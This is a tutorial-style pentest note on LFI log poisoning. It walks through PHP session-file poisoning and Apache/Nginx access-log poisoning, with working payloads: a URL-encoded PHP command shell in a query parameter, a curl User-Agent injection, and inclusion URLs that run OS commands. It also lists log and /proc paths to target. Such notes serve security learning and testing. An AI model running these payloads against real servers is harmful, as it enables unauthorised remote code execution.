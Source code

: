 # Log Poisoning
***
#### As long as the vulnerable function has the `Execute` privileges we can execute PHP code by including a file containing PHP code.
#### These type of attacks can be achieved by writing PHP code into a field that gets logged into a log file to latter include that file to execute the PHP code. Additionally, we would need read privileges to read the logged files.

### PHP Session Poisoning
#### PHP web applications use the `PHPSESSID` cookie to keep track of user details. Furthermore, this data is stored in `session` files on the back-end server, where can be found in `/var/lib/php/sessions/` on linux and in `C:\Windows\Temp\` on Windows. We can guess our file that is holding our data by using the `PHPSESSID` cookie with the `sess_`prefix. For instance, `/var/lib/php/sessions/sess_fv6ukv2jqhvoirg7nkp1snciu2`.
#### Example: `http://<IP>:<PORT>/index.php?lang=not_poisoning`
#### When visiting a page inside the web application, we can see that it gets logged into the above directory
#### By knowing that we got control of the value stored in the session file we can perform the poisoning step. Just simply craft a PHP shell and send it through the `?lang=` parameter.
```http request
http://<IP>:<PORT>/index.php?lang=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
#### Lastly, we include the session file and execute OS commands:
```
http://<IP>:<PORT>/index.php?lang=/var/lib/php/sessions/sess_fv6ukv2jqhvoirg7nkp1snciu2&cmd=whoami
```

#### As the session file gets overwritten everytime we execute a command we would always need to poison the session file. Moreover, it would be preferred to write a permanent web shell or send a reverse shell.

### Server Log Poisoning
#### Both `Apache` and `Nginx` servers log requests in files like access.log and error.log. The access.log file records details of all requests, including the User-Agent header, which can be controlled by an attacker to inject malicious content (log poisoning).
#### To exploit this via Local File Inclusion (LFI), attackers must access the log files. By default, Nginx logs are readable by low-privileged users (e.g., www-data), while Apache logs usually require higher privileges (e.g., root or adm group). However, misconfigurations or older Apache setups might expose these logs to low-privileged users.
#### Default log locations are:

* Apache: /var/log/apache2/ (Linux) or C:\xampp\apache\logs\ (Windows)
* Nginx: /var/log/nginx/ (Linux) or C:\nginx\log\ (Windows)
#### In cases where logs are stored elsewhere, fuzzing with an LFI wordlist can help identify their paths.

#### When visiting the `/var/log/apache2/access.log`file, for instance, we would see that a variety of parameters get logged, specially the `User-Agent`header. With that into consideration we could poison this value by doing the following:
```bash
$ curl -s "http://<IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

#### Then we include the log page with our OS command
```http request
http://<IP>:<PORT>/index.php?lang=/var/log/apache2/access.log?cmd=whoami
```

#### ***NOTE***: This method can also be executed by including process files under the Linux `/proc/` directory. For example, we may be able to include the `/proc/self/environ` or `/proc/self/fd/N` files (N is a PID between 0-50).

#### Similar log poisoning techniques can be used on various system logs.
* `/var/log/sshd.log`
* `/var/log/mail`
* `/var/log/vsftpd.log`

#### With ftp or ssh services we can try logging into them with a webshell as username. By sending an email containing PHP code we can use `mail` services to execute PHP code.
